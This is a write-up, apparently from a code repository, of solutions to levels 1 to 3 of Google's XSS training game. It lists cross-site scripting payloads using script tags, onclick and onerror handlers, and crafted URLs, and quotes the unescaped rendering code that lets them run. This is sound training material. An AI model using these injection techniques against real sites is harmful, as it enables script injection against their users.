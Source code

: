 # Solutions to Google XSS Challenges

## Level 1

### How to trigger the vulnerability?
```html
<script>alert()</script>
```

### Where is the vulnerable code?
In [level1.py](source-code/level1.py), the input strings are directly being rendered without any escaping or validation.

```python
message = "Sorry, no results were found for <b>" + query + "</b>."

self.render_string(page_header + message + page_footer)

def render_string(self, s):
    self.response.out.write(s)
```

## Level 2

### How to inject Javascript code?
Since simply using `<script>...</script>` will not work in this case, we need to find other ways to inject Javascript code.

Some options:

```html
<a href="#" onclick="alert()">Click Me To Exploit!</a>
```

```html
<img src="hahaa" onerror="alert()">
```

### Vulnerable code
<!-- TODO -->
**TODO**

## Level 3

### How to exploit?
In this level I've come up with two ways to exploit the xss vulnerabilities.

First, modify the URL such that the image will not be displayed and thus trigger the `onerror` event which we injected.
```url
https://xss-game.appspot.com/level3/frame#4' onerror="alert()" alt='exploited_image
```
An alternative solution will be the web page as normal render the correct image (for example, 3.jpg), but this time we add the `onClick` event into the image. So the injected JS code will be triggered when the user click that correctly displayed image.
```url
https://xss-game.appspot.com/level3/frame#1.jpg' onClick="alert()" alt='will_not_display
```


### Vulnerable Code

The vulnerable code appears at Line17 of [index.html](/source_code/level3/index.html) file. This allows attacker to inject Javascript code using `onerror` event in the `img` tag.
```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

After injecting the above url, the `img` tag of the html file will be rendered as
```html
<img src='/static/level3/cloud/4' onerror="alert()" alt='exploited_image.jpg' />
```
---
#### *NOTICE*:
The image is stored inside the database as `1.jpg`. So if you modify the image tag as
```html
<img src='/static/level3/cloud/1.jpg' onerror="alert()" alt='will_not_display.jpg' />
```
will NOT trigger the `onerror` event.

Just delete the `.jpg` extension will make the image un-displayable and thus trigger the `onerror` event :)
